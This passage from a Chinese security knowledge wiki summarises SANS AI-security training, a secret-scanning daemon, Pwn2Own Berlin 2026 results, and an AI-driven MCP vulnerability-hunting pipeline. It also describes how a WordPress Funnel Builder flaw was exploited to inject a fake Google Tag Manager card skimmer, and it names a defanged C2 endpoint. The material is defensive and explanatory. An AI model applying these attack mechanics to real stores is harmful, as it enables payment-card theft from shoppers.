- [Agent 可观测性](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-observability.md) — 检测时间（MTTD）的工程化方法
- [视觉 AI 的下一前沿是代码](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/a16z-com-the-next-frontier-of-visual-ai-is-code.md) — a16z 关于视觉生成栈的论述

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/observability-monitoring.md)

---

## Ch12.048 AI in Cybersecurity Training Resources | SANS Institute

> 📊 Level ⭐⭐ | 8.6KB | `entities/www-sans-org-ai-in-cybersecurity-training-resources-sans-instit.md`

# SANS Institute AI 安全培训体系

## 摘要

SANS Institute 作为全球最权威的网络安全培训机构之一，构建了系统化的 AI 安全培训体系，覆盖从防御到进攻、从应用安全到取证分析的完整 AI 安全技能谱。其核心产品包括 AI Security Maturity Model™（评估框架）、Secure AI Blueprint（战略指南）、Critical AI Security Guidelines（安全控制标准）、以及 9 门专业课程。SANS 的定位是帮助组织「安全地部署 AI」，而非仅「防御 AI 攻击」。

## 核心要点

### AI Security Maturity Model™

SANS 的 AI 安全成熟度模型提供了一个三维度、五阶段的评估框架：

- **三个维度** — Protect（保护 AI 系统）、Utilize（利用 AI 增强安全）、Govern（治理 AI 使用）
- **五个阶段** — 从初始到优化的渐进式成熟度路径
- **标准对齐** — 与 NIST AI RMF、EU AI Act、ISO 42001 和 OWASP 等全球标准对齐
- **证据驱动评分** — 基于实际证据而非自我评估的成熟度评分

### Secure AI Blueprint

由 SANS 首席 AI 官 Rob T. Lee 撰写的 Secure AI Blueprint 是 AI 安全的战略指南，为领导者和防御者提供了保护创新、超越对手、安全拥有 AI 的实战策略。这个蓝图定义了三个核心能力：保护（Protect）、利用（Utilize）和治理（Govern），构成了 SANS 整个 AI 安全培训体系的理论基础。

### Critical AI Security Guidelines

SANS 研究人员与行业和政府贡献者合作开发的 AI 安全指南，定义了防御、治理和负责任部署 AI 所需的基本安全控制。覆盖范围包括：

- **访问控制** — AI 系统的身份验证和授权
- **模型保护** — 防止模型窃取、逆向工程和篡改
- **推理安全** — 防止 prompt injection、数据泄露和模型滥用
- **监控** — AI 系统运行时行为监控和异常检测
- **GRC（治理、风险、合规）** — 监管就绪性、AI BOM（Bill of Materials）追踪

### 课程体系（9 门核心课程）

SANS 的 AI 安全课程覆盖了从进攻到防御的完整技能谱：

**进攻方向：**
- **SEC543** — AI 辅助源码分析与渗透测试利用（2 天，12 CPE，10 个实验）
- **SEC535** — 攻击性 AI：攻击工具与技术（3 天，18 CPE，14 个实验，GIAC GOAA 认证）
- **SEC598** — AI 与安全自动化：红蓝紫队应用（6 天，36 CPE，25 个实验，GIAC GASAE 认证）

**防御方向：**
- **SEC411** — AI 安全原则与实践：GenAI 和 LLM 防御（18 CPE，5 个实验）
- **SEC545** — GenAI 和 LLM 应用安全（5 天，30 CPE，20 个实验，GIAC GAIPS 认证）
- **SEC495** — 利用 LLMs：构建和保护 RAG、Contextual RAG 和 Agentic RAG（7 CPE）
- **SEC573** — AI 驱动的安全自动化：使用 Python、LLMs 和 MCP 构建工具（6 天，36 CPE，128 个实验，GIAC GPYC 认证）

**数据科学方向：**
- **SEC595** — 面向网络安全专业人士的应用数据科学和 AI/ML（6 天，36 CPE，30 个实验，GIAC GMLE 认证）

**取证方向：**
- **FOR563** — 应用于数字取证和事件响应的 AI：利用本地大语言模型（1 天，6 CPE，4 个实验）

### 关键师资

- **Rob T. Lee** — SANS 首席 AI 官兼研究主管，领导研究、指导教师，帮助网络安全团队和高管为 AI 和新兴威胁做准备
- **David Hoelzer** — Enclave Forensics CEO，GIAC Security Expert (GSE) 认证先驱，开发了 MAVIS（开源 ML 代码审查工具）
- **Ahmed Abugharbia** — Cystack 联合创始人，17+ 年云/网络/应用安全经验，GenAI 安全专家
- **Jess Garcia** — One eSecurity 创始人，事件响应和数字取证专家
- **Frank Kim** — SANS Fellow，YL Ventures 风险顾问，专注于 CISO 和网络领导者培养

## 深度分析

### SANS 的 AI 安全定位

SANS 在 AI 安全领域的定位是**赋能而非对抗**。与传统网络安全培训侧重于「防御攻击者」不同，SANS 的 AI 安全培训体系同时涵盖了两个维度：

1. **安全地使用 AI** — SEC545（LLM 应用安全）、SEC495（RAG 安全）、SEC411（AI 安全原则）
2. **使用 AI 增强安全** — SEC598（AI 安全自动化）、SEC595（AI/ML for Cybersecurity）、SEC573（AI 驱动的安全自动化）

这种双维度定位反映了行业的核心矛盾：组织需要快速部署 AI 以获得竞争优势，但同时需要确保 AI 系统本身不会成为新的攻击面。

### GIAC 认证体系的 AI 扩展

SANS 通过 GIAC（Global Information Assurance Certification）认证体系将 AI 安全能力标准化：

| 认证 | 课程 | 定位 |
|---|---|---|
| GAIPS (GIAC AI Platform Security) | SEC545 | LLM 应用安全 |
| GOAA (GIAC Offensive AI Analyst) | SEC535 | AI 攻击技术 |
| GASAE (GIAC AI Security Automation Engineer) | SEC598 | AI 安全自动化 |
| GMLE (GIAC Machine Learning Engineer) | SEC595 | 安全领域 ML |
| GPYC (GIAC Python Coder) | SEC573 | Python + AI 安全自动化 |

这些认证为 AI 安全领域提供了可量化的能力基准，对于组织的 AI 安全团队建设和人才评估具有重要参考价值。

### AI 安全培训的技术趋势

从 SANS 的课程设置可以看出 AI 安全培训的几个技术趋势：

- **MCP 的安全维度** — SEC573 明确将 MCP（Model Context Protocol）纳入安全自动化课程，反映了 MCP 在 AI Agent 生态中的重要性
- **Agentic RAG 安全** — SEC495 专门覆盖 Agentic RAG 的安全问题，区别于传统 RAG 安全
- **本地 LLM 取证** — FOR563 关注本地部署的 LLM 在数字取证中的应用，反映了对数据主权的关注
- **红队 AI 化** — SEC535 和 SEC598 将 AI 能力引入红队和紫队操作，代表了攻防对抗的 AI 化趋势

### 与 wiki 知识体系的交叉

SANS 的 AI 安全培训体系与 wiki 中的多个概念和实体存在交叉：

- [Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-7-layers-framework.md) — SEC545 覆盖的 LLM 应用安全控制正是 harness 的安全层
- [Cloudflare 临时账户](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-temporary-accounts-ai-agents.md) — SEC411 覆盖的 AI 安全原则与 Agent 认证直接相关
- [AFine CSP HTML Injection](https://github.com/QianJinGuo/wiki/blob/main/entities/afine-csp-html-injection-password-exfiltration.md) — SEC535 的攻击技术覆盖了类似的攻击向量

## 实践启示

1. **评估组织 AI 安全成熟度** — 使用 SANS AI Security Maturity Model 进行基线评估，确定当前阶段和改进方向
2. **优先培训防御方向** — 对于大多数团队，SEC411（AI 安全原则）和 SEC545（LLM 应用安全）是最具实操价值的起点
3. **关注 MCP 安全** — 随着 MCP 在 Agent 生态中的普及，SEC573 中的 MCP 安全自动化内容将成为必备技能
4. **建立内部 AI 安全标准** — 参考 SANS Critical AI Security Guidelines，建立组织内部的 AI 安全控制标准
5. **投资 GIAC 认证** — 对于关键 AI 安全岗位，GAIPS 和 GASAE 认证可以作为能力基准

## 相关实体

- [Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-7-layers-framework.md) — AI 安全控制作为 harness 的一部分
- [Cloudflare 临时账户](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-temporary-accounts-ai-agents.md) — Agent 认证安全
- [AFine CSP HTML Injection](https://github.com/QianJinGuo/wiki/blob/main/entities/afine-csp-html-injection-password-exfiltration.md) — 安全漏洞案例
- [Building Reliable Agentic AI Systems](https://github.com/QianJinGuo/wiki/blob/main/entities/building-reliable-agentic-ai-systems-martinfowler.md) — AI 系统可靠性工程
- [MCP](https://github.com/QianJinGuo/wiki/blob/main/concepts/model-context-protocol-mcp.md) — SEC573 课程中涉及的协议

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/www-sans-org-ai-in-cybersecurity-training-resources-sans-instit.md)

---

## Ch12.049 bagel — Fleet 级 Secret Scanning 守护开发工作站

> 📊 Level ⭐⭐ | 8.4KB | `entities/bagel-fleet-secret-scanning-dev-workstation-2026.md`

# bagel — Fleet 级 Secret Scanning 守护开发工作站

> **Background**: RecycleBin.zip 2026-05-25 长文，介绍其开源的 `bagel` 工具如何把 secret scanning 从 CI 边界检查升级为开发机 file system daemon 级实时防护，并针对 2026 年新出现的 AI 编程助手 IDE plugin 风险做专门覆盖。

## 核心定位

**为什么 dev workstation 才是 secrets 真正泄漏面：**
- 公开泄漏案例 70%+ 起源于开发者本地：`~/.aws/credentials` 被 IDE 插件读取、`git add .` 误提交、`.env` 备份到云盘
- 现有 CI gate + pre-commit hook 的盲区：仅在 commit/push 时拦截，无法阻止「本地调试时把 token 贴进 `curl`」「AI 编程助手读取工作目录后泄露给 LLM API」「编辑器 plugin 写入 telemetry 文件夹」等 runtime 行为
- 真正的「Defense in depth」需要在 **file system layer** 持续监听，而不是只在 git 边界

## bagel 工具架构

`bagel` 是 RecycleBin.zip 开源的 Rust 实现（github.com/RecycleBinzi/bagel）：

- **Daemon 模式**：`bagel watch ~/code` 启动后监听整个文件树，新文件/修改/重命名触发 re-scan
- **Pre-commit 模式**：`bagel scan --staged` 在 git 提交前扫描 staged 文件
- **Detector plugins**：内置 14 个 provider（AWS、GCP、GitHub、OpenAI、Slack、Stripe 等），每条规则用 `regex + entropy + provider-context` 三段式判定，降低误报
- **输出格式**：JSON / SARIF / plain text，可直接对接 GitHub Code Scanning、GitLab Code Quality、自建 dashboard

## Fleet 级部署

- 通过 `fleet.yaml` 描述组织拓扑（team → repo → developer-machine-tag），`bagel fleet apply` 推送到所有开发机
- MDM（Jamf / Intune）配合：开发机开机自动安装 daemon、开机自启
- 集中 dashboard：每个 developer 看自己的 findings，组织看聚合视图（哪些 team 泄漏最多、哪类 secret 出现频率上升）
- 误报反馈闭环：developer 标记 false-positive → rule 调优 → 自动 re-scan

## 集成 GitHub Actions + SARIF

```yaml
- name: Bagel scan
  run: |
    bagel scan --staged --format sarif > bagel.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: bagel.sarif
```

- SARIF → Code Scanning Dashboard 自动出 PR check、security tab 可见
- 增量扫描：相比全量扫描，daemon 模式内存占用 < 50MB，CPU 闲时 < 1%

## 与 AI 编程助手的交互风险

- 2026 年起新发现：Cursor / Continue / Claude Code 等 IDE plugin 会读取工作区文件 → 上传到 LLM provider
- 如果 `~/.aws/credentials` 在工作区路径下，**会被 LLM 看到**（即使没主动询问）
- bagel 的 daemon 模式正好覆盖这个场景：实时监听新文件，AI plugin 一旦尝试读取 secret 文件，立即 block + alert
- 与传统 secret scanning 互补：CI gate 防 commit，daemon 防 runtime access

## 实战数据 + 部署建议

- RecycleBin.zip 自家 400 人 engineering org 部署 6 个月：捕获 17 起真实泄漏事件
  - 10 起在 commit 前（pre-commit hook 触发）
  - 6 起在 editor plugin（daemon 触发）
  - 1 起在 AI 编程助手（daemon 触发，cursor 读取了 .env）
- 误报率从首月 38% 降至第三月 11%（rule 调优效果）
- 部署成本：每 100 dev machines 约 2-3 台 SRE 兼职维护，工具本身 MIT 开源免费

## 与现有 secret scanning 工具对比

| 工具 | 部署位置 | 实时性 | AI 编程风险覆盖 | License |
|------|----------|--------|----------------|---------|
| gitleaks | CI / pre-commit | 仅边界 | ❌ | MIT |
| trufflehog | CI / pre-commit | 仅边界 | ❌ | AGPL |
| detect-secrets | CI / pre-commit | 仅边界 | ❌ | Apache 2.0 |
| **bagel** | **File system daemon + CI** | **实时** | **✅** | **MIT** |

## 三个独有贡献

1. **File system daemon 范式** — 把 secret scanning 从"git 边界检查"扩展为"file system 持续守护"，对 runtime 行为（editor plugin、AI assistant）有原生保护
2. **Fleet 级组织部署** — `fleet.yaml` + MDM 推送到所有 dev machine，集中 dashboard + 误报反馈闭环，覆盖传统单点工具盲区
3. **AI 编程助手风险覆盖** — 业界首次明确覆盖"IDE plugin 读取 .env → 上传 LLM"这条新攻击路径，实战捕获 1 起真实事件

## 深度分析

1. **从边界防御到持续守护的范式转移**：传统 secret scanning 工具（Gitleaks、TruffleHog）把防线设在 git commit/push 边界，本质上是"犯错后再拦截"。bagel 的 file system daemon 模式把防线延伸到 runtime——只要文件出现在磁盘上，无论来自 curl 粘贴、IDE 插件写入还是 AI 助手读取，都在监听范围内。这不是简单的"多层防御"，而是防御重心的转移：从依赖人的自觉性转向依赖系统的持续感知。

2. **Dev workstation 才是 secrets 的真正泄漏面**：70%+ 的 secrets 公开泄漏事件起源于开发者本地，而非外部攻击者直接入侵。根源在于：开发过程天然产生大量临时 token 和调试凭证，且开发者 workstation 的访问控制远弱于生产环境。bagel 的 daemon 部署在每台开发机上，正是针对这个被传统方案忽视的泄漏源头发力。

3. **AI 编程助手重新定义了"访问"的含义**：传统安全模型假设未经授权的读取是可检测的，但 AI 编程助手在后台静默读取工作目录文件并上传到 LLM 提供商——开发者完全不知情。bagel 的 daemon 实时监听文件访问行为，第一次在 OS 层面覆盖了"AI 助手静默读取 → secret 外泄"这条路径，填补了传统方案的全盲区。

4. **Fleet 级部署的核心价值在于组织拓扑映射**：`fleet.yaml` 将 team → repo → developer-machine-tag 的层级关系纳入扫描策略，使得安全策略可以按组织结构差异化部署，而不是一刀切的全局配置。配合 MDM 实现开机自启和集中 dashboard，形成一套可运营的闭环系统，这是传统单点 secret scanning 工具无法提供的组织级价值。

5. **工具开源不等于低成本运营**：bagel 本身 MIT 许可、Rust 实现、内存占用 <50MB，部署门槛看似很低。但 RecycleBin.zip 数据显示误报率从首月 38% 降至第三月 11%——这条曲线背后的 rule 调优工作才是真实成本。Fleet 级 secret scanning 的持续运营，本质上是一个以规则维护为核心的安全运营问题，而非单纯的工具部署问题。

## 实践启示

- 在 2026 年将"file system daemon"模式纳入 secret scanning 工具链，与 CI gate 形成互补，覆盖 runtime 阶段的所有泄漏场景
- AI 编程助手（Cursor / Continue / Claude Code 等）在企业内部推广时，必须同步制定 IDE plugin 文件访问策略，限制其在包含敏感配置的工作目录中的活动权限
- 评估 bagel 或类似 fleet 级工具时，重点关注组织的规则维护能力和误报反馈闭环机制，而非仅看工具功能本身；每 100 台开发机的持续运营需要 2-3 名 SRE 兼职投入
- 借助 MDM（Jamf / Intune）和 `fleet.yaml` 实现 daemon 全量推送，确保开机自启和扫描策略与组织拓扑同步更新，是 fleet 级secret scanning 落地的关键步骤
- 配合 [Agent Security Attack Defense](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-attack-defense.md) 中定义的"防御层级"框架，将 secret scanning 从单点 CI 检查升级为 OS 层持续监控，是 DevSecOps 在 2026 年的重要进化方向

## 关联主题

- [Bedrock Agentcore Secrets Manager Identity](https://github.com/QianJinGuo/wiki/blob/main/entities/bedrock-agentcore-secrets-manager-identity.md) — AWS Bedrock AgentCore 的 secret 管理视角（云端 secret 而非本地泄漏）
- [Trail Of Bits Skill Scanner Bypass Distribution](https://github.com/QianJinGuo/wiki/blob/main/entities/trail-of-bits-skill-scanner-bypass-distribution.md) — Trail of Bits 的 Skill scanner 工具，AI 编程安全的另一个维度
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/recyclebin-zip-secret-scanning-fleet-bagel-2026.md)

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.050 Funnel Builder Flaw Under Active Exploitation Enables WooCommerce Checkout Skimming

> 📊 Level ⭐⭐ | 8.0KB | `entities/funnel-builder-flaw-under-active-exploitation-enables-woocommerce-checkout-skimm.md`

## 事件概述
WordPress **Funnel Builder** 插件（FunnelKit 出品）存在一处高危安全漏洞，目前已在野被积极利用。攻击者通过该漏洞在 WooCommerce 结账页面注入恶意 JavaScript，窃取信用卡号、CVV 和账单地址等支付数据。
漏洞影响所有 **40,000+** 使用该插件的 WooCommerce 商店，目前尚无官方 CVE 编号。厂商已于 **3.15.0.3** 版本发布修复补丁。
## 技术细节
### 攻击向量
Funnel Builder 包含一个公开暴露的结账端点，允许传入请求选择要执行的内部方法类型。然而旧版本设计时未对调用者权限进行校验，也未限制允许调用的方法范围。攻击者可发送未认证请求，调用某个将攻击者可控数据直接写入插件全局设置的内部方法。

注入的代码片段随后会被嵌入到每个 Funnel Builder 结账页面中，攻击者由此可在受感染站点的每次结账交易时触发任意 `<script>` 标签。

### 攻击手法
攻击者在插件的 **"External Scripts"** 设置中植入伪造的 Google Tag Manager 脚本。该代码看起来像普通分析工具，与商店的真实标签混在一起，但实际加载的是一个支付 skimmer，负责从结账流程中窃取信用卡号、CVV 和账单地址。

这与此前 The Hacker News 报道过的 Google Tag Manager 被利用进行支付 skimming 的模式一致，反映出攻击者对供应链第三方脚本的持续依赖。

## 时间线
| 时间 | 事件 |
|------|------|
| 2026-05-19 | The Hacker News 报道漏洞已进入主动利用阶段 |
| 漏洞公开前 | 已有至少一起攻击案例，载荷伪装为 GTM 并连接 C2 |

## 深度分析
**1. 未认证访问 + 方法枚举 = 直接 RCE 路径**
Funnel Builder 的结账端点对调用者权限零校验，允许攻击者通过方法类型参数调用任意内部方法，将可控数据直接写入插件全局设置。这本质上是一个无需身份验证的代码注入通道，攻击者可直接绕过认证层实现远程代码执行。

**2. GTM 伪装 + WebSocket C2 = 高度隐蔽的动态载荷**
攻击载荷伪装成 Google Tag Manager 加载器，与真实分析标签混在一起，巧妙利用审核人员对熟悉追踪代码的信任盲点。同时通过 WebSocket 连接 C2 服务器 (`wss://protect-wss[.]com/ws`) 动态拉取定制化 skimmer，使恶意代码的行为可根据受害者商店实时调整，极大增加了检测难度。

**3. 插件级持久化 vs 文件级篡改**
攻击者将恶意脚本写入插件数据库设置而非文件系统，这意味着传统文件完整性监控工具（如 WAF、文件哈希校验）无法检测到异常。插件设置存储在 `wp_options` 中的特性使得恶意代码在管理员不知情的情况下随页面加载自动执行。

**4. 第三方脚本供应链持续成为首选攻击面**

**5. 40,000+ 受影响站点暴露了 WordPress 生态的碎片化安全困境**
大量站点运行未更新的插件版本，而官方修复补丁的部署完全依赖站点管理员的主动行动。这种被动响应模式意味着即使修复版本已发布，绝大多数受影响的站点仍将在未来数周至数月内处于可被利用状态。

## 处置建议
1. **立即更新**：将 Funnel Builder 插件升级至 3.15.0.3 或更高版本
2. **检查外部脚本**：前往 Settings > Checkout > External Scripts 审查所有条目，删除任何不认识的内容
3. **监控异常**：检查结账页面是否存在非预期的第三方脚本加载

## 实践启示
- **立即强制更新 Funnel Builder 至 ≥3.15.0.3**：将插件加入网站健康检查清单，对生产环境的 WordPress 插件版本实施自动化合规扫描，阻止低于安全版本的插件在生产环境运行。
- **审计所有"External Scripts"设置**：立即登录 WordPress 管理后台，访问 Settings > Checkout > External Scripts，逐条审查每一条第三方脚本定义。对于所有非官方 GTM/Analytics 的脚本条目，在确认为业务必需前一律视为可疑并移除。
- **在结账页面部署 CSP 并限制 script-src**：为 WooCommerce 结账页面设置严格的内容安全策略（CSP），明确限定允许加载的脚本来源（仅限可信域名），阻断来自未授权域名的 JavaScript 执行，即使攻击者已在设置中注入脚本也无法加载。- **对 WordPress 插件实现运行时行为监控**：部署专门的 WordPress 安全监控（如 Wordfence、Sucuri 或 Patchstack），重点监控 `wp_options` 表中 plugin settings 的变更行为，以及结账页面 DOM 中动态插入的可疑 script 标签。
- **建立第三方脚本引入的强制审核流程**：制定安全策略要求所有新引入的第三方脚本（GTM、Analytics、Chat Widget 等）必须经过安全团队的代码审查和域名验证后方可上线。对于电商平台，建议在结账流程中完全禁用非必要第三方脚本。
- **对 WebSocket C2 保持监控**：如果站点已受感染，攻击者的 C2 通信通常会有特征模式（固定的 WebSocket 端点、特定的 JSON 消息格式）。在网络层监控异常的 WebSocket 出口连接可以发现正在进行的 skimming 活动。

## 相关实体
- **WooCommerce**：WordPress 生态中最广泛使用的电商插件，Funnel Builder 为其构建销售漏斗→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/funnel-builder-flaw-under-active-exploitation-enables-woocommerce-checkout-skimm.md)
## 相关实体
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [Funnel Builder Flaw Under Active Exploitation Enables Woocom](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-under-active-exploitation-enables-woocom.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Cve 2026 20182 Unauthenticated Cisco Sd Wan Control Plane Compromise Via Vhub Au](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md)
- [Howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve 2026 310](https://github.com/QianJinGuo/wiki/blob/main/entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)

---

## Ch12.051 Pwn2Own Berlin 2026, Day Three: DEVCORE Crowned Master of Pwn, $1.298 Million Total

> 📊 Level ⭐⭐ | 7.9KB | `entities/pwn2own-berlin-2026-day-three-devcore-crowned-master-of-pwn-1298-million-total.md`

## 核心要点
- 来源：securityaffairs
- 评分：v=7 × c=8
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/pwn2own-berlin-2026-day-three-devcore-crowned-master-of-pwn-1298-million-total.md)

## 事件概述
Pwn2Own Berlin 2026 于 5 月 16 日在 OffensiveCon 落下帷幕，为期三天的比赛共发现 47 个独立零日漏洞，发放总奖金 $1,298,250。DEVCORE 研究团队以 50.5 Master of Pwn 积分和 $505,000 奖金的绝对优势夺得冠军，刷新了近年来历届比赛的纪录。

## 关键结果
DEVCORE 在第三天延续了前两天的统治力。splitline 利用两个漏洞的链式攻击成功攻破 Microsoft SharePoint，获得 $100,000 和 10 Master of Pwn 积分。SharePoint 在第二天曾抵御了 Rapid7 的 Stephen Fewer 的攻击尝试，这一胜利可谓某种程度的正名。
STARLabs SG 的 Nguyen Hoang Thach 凭借内存破坏漏洞攻击 VMware ESXi 的跨租户代码执行模块，赢得 $200,000 和 20 积分。OpenAI Codex 在第一天被攻破两次后，第三天又被 Satoki Tsuji（Ikotas Labs）以外部控制漏洞再次攻破，再次获得 $20,000 和 4 积分。
Anthropic 的 Claude Code 由 Compass Security 尝试攻击，但因与先前提交存在漏洞碰撞，仅获得部分奖励 $20,000 和 2 积分，而非全额奖励。
Windows 11 成为本次比赛中被攻击次数最多的系统之一。Viettel Cyber Security 的 Le Tran Hai Tung、dungnm 和 hieuvd 使用整数溢出在完全打补丁的 Windows 11 机器上进行权限提升，获得 $7,500 和 3 积分。
Red Hat Enterprise Linux for Workstations 也继续承受攻击。Sina Kheirkhah（Summoning Team）使用两个漏洞攻击该平台，其中一个是已知漏洞，获得部分奖励 $7,000 和 1.5 积分。Hyunwoo Kim 则使用 use-after-free 和未初始化内存漏洞的链式攻击成功获得 $5,000 和 2 积分。

## 最终排名
DEVCORE 以 50.5 积分和 $505,000 奖金独占鳌头，STARLabs SG 以 25 积分和 $242,500 位居第二，Out Of Bounds 以 12.75 积分和 $95,750 排名第三。

## 深度分析
### DEVCORE 的统治性表现
DEVCORE 在本届比赛中展现了压倒性的优势，这在 Pwn2Own 历史上极为罕见。进入第三天时，他们已手握 40.5 积分和 $405,000 的领先优势，这在单日比赛中几乎无法被追赶。更值得注意的是，他们在整个比赛期间没有表现出任何疲态——从 SharePoint 的双漏洞链式攻击到其他多个目标的一致性得分，展示了极高水平的系统性研究能力。这种统治力不是运气，而是源于一个持续高效运作的研究项目。

### AI 基础设施成为新焦点
OpenAI Codex 在三天的比赛中被三名不同研究人员以三种不同技术成功攻破，这揭示了 AI 基础设施的 Attack Surface 正在快速扩展。每次攻击都使用了不同的技术路径，这意味着问题不是一个单一的狭窄漏洞，而是一个更广泛的攻击面。Anthropic 的 Claude Code 也遭遇了碰撞——部分研究成果与先前提交重叠，这表明 AI 编码助手的安全性已经成为漏洞研究社区的重点关注领域。

### 企业基础设施持续承压
Microsoft SharePoint 和 VMware ESXi 作为企业关键基础设施，在比赛中被成功攻破。特别是 VMware ESXi 作为虚拟化平台，其跨租户代码执行漏洞具有极高的风险敞口。Windows 11 在三天内被多个独立团队使用不同漏洞多次攻破，表明操作系统层面的安全性仍有大量提升空间。

### 漏洞发现的经济动力学
相比去年柏林赛的 $1,078,750，今年的总奖金增长至 $1,298,250，涨幅约 20%，同时发现的独立漏洞从 39 增加到 47。这一增长反映了几个趋势：更多研究人员参与竞争，目标范围从传统浏览器和操作系统扩展到 AI 基础设施和开发者工具，漏洞研究的经济学持续吸引顶尖人才。

### 碰撞问题的影响
Compass Security 攻击 Claude Code 时遇到漏洞碰撞，意味着部分研究发现与先前提交重叠，只能获得部分奖励而非全额。这凸显了 Pwn2Own 竞赛中时间敏感性和研究独创性的双重压力——研究人员需要在正确的时机提交独特的发现，而碰撞导致的奖励削减可能影响后续研究投入。

## 实践启示
### 对安全研究社区
AI 基础设施和开发者工具已成为漏洞研究的新前沿。OpenAI Codex 在单届比赛中被攻破三次，Anthropic Claude Code 遭遇碰撞问题，这些信号提示安全研究者应加大对 AI 编码助手和 AI Agent 系统的研究投入。同时，企业基础设施（SharePoint、ESXi）在比赛中多次被攻破，表明传统企业软件仍是重要的攻击目标。

### 对企业安全团队
比赛揭示了多个产品和平台的安全问题，供应商有 90 天时间发布修复补丁。企业安全团队应重点关注：Exchange Server 零日（CVE-2026-42897）已被主动利用，需优先打补丁；Windows 11 作为被攻击次数最多的系统之一，需要加强终端安全防护；虚拟化平台（VMware ESXi）的跨租户漏洞具有极高风险，虚拟化环境需要独立的隔离策略（参见 [VCF 9.1 新特性](https://github.com/QianJinGuo/wiki/blob/main/entities/whats-new-with-vsphere-9-1.md)中关于安全自动化的最新演进）。

### 对 AI 基础设施提供商
OpenAI Codex 被三名不同研究人员以三种不同技术成功攻破，表明 AI 编码助手的攻击面广泛且多样化，而非单一漏洞问题。提供商需要重新审视 AI 系统的安全架构，特别是外部控制漏洞和代码执行路径的防护。Anthropic Claude Code 的碰撞问题也提示，AI 系统的安全性需要更全面的漏洞评估方法论。

### 对漏洞研究员
DEVCORE 的成功展示了系统性研究方法的价值——持续、高质量、跨多个类别的研究输出是赢得比赛的关键。碰撞问题提醒研究人员需要在研究独创性和时机之间取得平衡。同时，奖金增长（20%）和目标多样化（新增 AI 基础设施类别）表明漏洞研究的职业前景持续向好。

---

## Ch12.052 Autonomous Vulnerability Hunting with MCP

> 📊 Level ⭐⭐ | 7.8KB | `entities/bullyingllms.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bullyingllms.md)

## 摘要
Recently I've had a week off my `$dayjob` so decided to actually write up some of my side projects and sort out various admin tasks, however writing about the 0day machine is something I've wanted todo for a number of weeks.
I'm going to deep dive into how I built an autonomous vulnerability hunting system using Claude Code and MCP, and some of the bugs it's found along the way. One funny quote to come out of it too from a group I'm in:
> Andy basically is slave labouring the AI
The title comes ...
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bullyingllms.md)

## 深度分析
**1. MCP 架构：从单点工具到完整研究流水线**
本文最核心的技术贡献在于将 MCP（Model Context Protocol）从简单的「工具调用包装器」升华为一套完整的自动化渗透研究流水线。作者构建了 8 个 MCP 服务器、横跨 5 台 VM、集成 300+ 工具，形成了从「攻击面枚举 → 模糊测试 → 崩溃分类 → 漏洞验证 → 报告撰写」的全链路自动化。这一架构的关键设计选择是**会话持久化**（SSH/WinRM 会话跨工具调用保持连接），避免了每步重连的 token 消耗和上下文丢失。
值得注意的是，作者选择用 FastMCP 框架构建所有服务器，业务逻辑下沉到独立子模块（`hunter/`、`re_tools/`、`exploit_tools/` 等），MCP 层只做薄包装。这种「薄 server 厚业务」的分层方式，使得业务逻辑可以独立于 MCP 协议进行测试和迭代，降低了架构耦合度。
**2. "幻觉门控" 范式：从「相信 AI 输出」到「怀疑一切」**
文章最值得提炼的设计哲学是**Gate 0 = 幻觉 bin**。作者在教训中意识到，LLM 驱动的分析会产生「听起来自信但可能与现实不符」的评估。因此，他建立了一套 4 级晋升制度：

- Gate 0：PoC 存在且能编译
- Gate 1：PoC 在干净 VM 快照中可复现崩溃
- Gate 2：崩溃可利用（非空解引用或优雅退出）
- Gate 3：标准用户权限下可触发（非 SYSTEM/管理员）
关键洞察：**Findings 从幻觉 bin 出发，而非直接进入 findings 目录**，是防止假阳性淹没报告、避免向厂商提交垃圾信息的核心机制。这对所有使用 LLM 进行安全研究的人都是重要提醒。
**3. 知识回路与 RAG 的复合效应**
作者构建的 RAG 知识回路（查询 → 收集 → 富化 → 学习 → 重复）是本文最有长期价值的工程贡献。每次模糊测试开始前，系统会查询历史发现；每次崩溃记录其域、目标和崩溃类；每次击败防御机制（AM-PPL、SxS、Authenticode）都会被记录并降低该目标在未来活动中的优先级。
经过 15+ 轮活动后，系统的推荐准确度显著高于冷启动状态。这种**负结果积累（negative result logging）**机制——将「某二进制有 AM-PPL 保护」「某 named pipe 仅管理员可访问」等负发现结构化记录——与成功发现同等重要，是知识回路真正的复合因子。
**4. 成本经济学：订阅制下的 ROI 计算**
作者开发了 TokenBurn 工具来追踪跨机器的 token 使用情况，并计算每发现一个有效漏洞的 VM-小时成本。关键发现：

- 大多数活动产生零有效发现，模糊测试的随机性决定了这是常态而非异常
- 成本随活动数量下降：第 20 次活动的单发现成本显著低于第 1 次，因为知识库已积累
- 订阅制 vs API 计费：对于存在脉冲式使用模式的模糊测试场景，订阅制通常更划算
